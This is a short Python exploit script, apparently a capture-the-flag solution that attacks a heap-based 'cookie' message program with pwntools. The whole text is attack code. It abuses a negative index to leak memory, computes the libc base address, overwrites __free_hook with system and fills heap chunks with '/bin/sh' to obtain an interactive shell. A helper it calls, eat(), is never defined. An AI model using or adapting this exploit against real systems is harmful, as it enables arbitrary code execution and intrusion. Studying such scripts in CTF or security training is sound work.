 ```python
def create(size, data):
    p.sendlineafter(">", '2')
    p.sendlineafter("How long is the message?", str(size))
    p.sendlineafter("Input your message:", data)
def edit(idx, data):
    p.sendlineafter(">", '3')
    p.sendlineafter("Which cookie?", str(idx))
    p.sendafter("New Message:", data)
def show(idx):
    p.sendlineafter(">", '4')
    p.sendlineafter("Which cookie?", str(idx))

#print(p.recvline())
show(-11)
p.recv(7)
target = u64(p.recv(6).ljust(8, b'\x00')) + 0x80
info(f"target: {hex(target)}")
for i in range(27):
    create(0x88, b"/bin/sh\x00")

# #input()
edit(-11, p64(target))
edit(-11, p64(target-0x68))
show(5)
p.recv(8)
#input()
libc_base = u64(p.recv(6).ljust(8, b'\x00')) -0x3ec760
info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
edit(-11, p64(free_hook))
edit(5, p64(system))
print("hi")
eat()


p.interactive()
```
